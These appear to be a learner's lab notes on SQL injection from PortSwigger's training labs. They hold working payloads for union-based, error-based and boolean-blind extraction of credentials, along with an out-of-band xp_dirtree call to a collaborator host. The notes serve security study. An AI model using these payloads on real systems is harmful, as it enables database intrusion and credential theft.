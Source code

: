 # Portswigger lab Scripts with notes

1. What is SQL Injection?
--> Vulnerability that interferes SQL queries that application makes to a database. 
    Impact: View sensitive information, alter data and delete data.
    It bypasses SQL queries. Suppose a login page asks for username and password. At username you add admin'-- . The SQL query looks like SELECT * from users where username = 'admin' --, password = . -- comments out rest of the query and ' closes the string, logs in as admin. 


2. Types of SQL Injection?

a. In-band (Classic): When SQL payload reflects on the application. Easy to exploit. 

       i) Error-based: Forces database to generate error, giving attacker information.
                      Eg: www.evil.com/app.php?id=' . It gives output as eror in sql syntax with sql server version.
      
      ii) Union-based: UNION SQl operator to combine result of two queries into single result.
                     Eg: www.evi.com/app.php?id=' UNION SELECT username, password FROM users-- . It gives username and password.
      
b. Inferential (Blind): No transfer of data via web app. Only performs when there are certain codition. Takes Long to exploit.
     
        i) Boolean-based: Uses boolean condition to return different result depending whether query returns true or false result.
                          URL: www.evil.com/app.php?id=1. 
                          Payload #1(False): www.evil.com/app.php?id=1 and 1=2. Doesn't give product detail because false.
                          Payload #2(True): www.evil.com/app.php?id=1 and 1=1. Givs product detail because true.
                          Backend Query: select title ftom product where id=1 and 1=1
                          
       ii) Time-based: Delays the result for a specific time, indicating SQL query presence. Eg: If first character of admin hash passowrd is a',wait for 10 seconds. If it takes 10 seconds, it contains a has first password otherwise it doesnot.
      
c. Out-of-band: Using protocol to trigger SQL Injection. Results come to your system like burpcollab.  Eg: '; exec master..xp_dirtree '//burpcollaborator/a'-- 


3. How to find SQL Injection?
--> It depends on blackbox(little info given) and whitebox(source-code given)
       Blackbox: 
              1. Map the aplication: input vectors, endpoints, how app works, etc.
              2. Fuzzing: add SQl characters such as ' or " and look for errors, submit boolean condition, time delay query and out of band query to look for responses.
       Whitebox: 
              1. Enable web server and database logging.
              2. Map the application: regex search in code that talk to database.
              3. Code review: Follow code path for input vectors.
              4. Tesst SQLi vulnerability.

********** ERROR BASED **********

***** STEP #1: Determine # of columns *****

 Way #1: UNION
     
      select ? from table1 UNION select NULL, NULL--
       --> error: incorrecet number of columns.
       
      select ? from table1 UNION select NULL, NULL, NULL--
       --> 200 ok: correct number of columns.
       
 Way #2: ORDER BY
 
        select a,b from table1 order by 2-- 
                               order by 2#
        
***** STEP #2: Determine data type of column *****

        select a, b, c from table1 UNION select 'a', NULL, NULL--
        select a, b, c from table1 UNION select NULL, 'a', NULL--
        select a, b, c from table1 UNION select NULL, NULL, 'a'--
         --> error: column is not type text
         --> no error: column is type text.

        for oracle: 'union select 'a', 'a' from dual -- 


***** STEP #3: Finding database version *****

     oracle: select banner from v$version
             select version from v$instance

     mysql and microsoft: select @@version

     postgresql: select version()

        for oracle: ' union select banner, null from v$version--
        for mysql and microsoft: 'UNION select @@version,'a'%23


***** STEP #3: Finding username and password *****

        union select username, password from users--

       ** if only one field works concatenate string based on database

         union select null, username || password from users --  > postgresql and oracle
          "     "       " , username + password from users -- > microsoft
          "      "      " , username  password from users -- > mysql
                             concat(username,password)

      Found username and password: Gifts' union select null, username || '~' || password from users--
            administrator~z5wp402vuidu2y59oaai


***** STEP #4: Finding Database Content *****

        oracle:	SELECT * FROM all_tables
                SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' 

        non-oracle: SELECT * FROM information_schema.tables
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

        1) * is a place holder for tables NAME. search For information_schema.tables on google to get table names  #(users_table)

               non-oracle:  'union select table_name, null from information_schema.tables --
               oracle: ' union select table_name,null from all_tables--
        
        2) It contains lists of database name. lets pick users_acinmi for non-oracle and users_roomix for oracle then  #(username_column,password_column)
              non-oracle: ' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_acinmi' --
                                     output: username_wuiqfp
                                             password_fhdiit 

                oracle: ' union select column_name,null from all_tab_columns where table_name='USERS_ROOIMX'--
                                     output: USERNAME_ICWHMD
                                             PASSWORD_DETRFJ                                 
 

        3) Output the username and password  #(administrator_table)

                non-oracle: ' UNION select username_wuiqfp, password_fhdiit from users_acinmi--
                                    output: administrator
	                                    9ro90x5y3ztmsv21nwm0

                oracle: ' union select USERNAME_ICWHMD,PASSWORD_DETRFJ from USERS_ROOIMX--
                                     output: administrator
	                                     x7e2jmfnqacfb1bxe3m0



********** BLIND SQL **********

*** Blind SQLI with conditional responses ***

1. Confirm that the paramter is vulnerable to blind SQLi

cookie query: select tracking-id from tracking-table where trackingId='23f23fdxqd'

-> If tracking id exists -> query return value -> welcome back msg
-> If tracking id doesn't exists -> query returns nothing -> no welcome msg

select tracking-id from tracking-table where trackingId='23f23fdxqd' and 1=1--'
-> TRUE -> WELCOME back msg

select tracking-id from tracking-table where trackingId='23f23fdxqd' and 1=0--'
-> FALSE -> no WELCOME back msg

2. Confirm that we have users table

select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select 'x' from users LIMIT 1) = 'x'--'
-> TRUE -> users table exists in database

3. Confirm that username administrator exists users table

select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select username from users where username='administrator') = 'administrator'--'
-> administrator user exists

4. Enumerate password of the administrator user

select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select username from users where username='administrator' and LENGTH (password)>1) = 'administrator'--' 
-> Use burp to check how many length is there in the password. $1$. 20 returned false, so it contains 20 character.

  **** Using substring to find password. It checks one by one character ****

select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select substring(password,1,1) from users where username='administrator') = 'a'--'
-> burp,(payload-type=bruteforcer): $a$. If 1st letter contains letter 'c' go to 2nd letter.
-> burp payload(cluster-bomb): ' and (select substring(password,$1$,1) from users where username='administrator' and LENGTH (password)>1) = '$a$'--' 
-> 1st type: number from 1 to 20. 2nd type: bruteforcer.

    1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20

    h6yuihlcu58ybxrdatgt



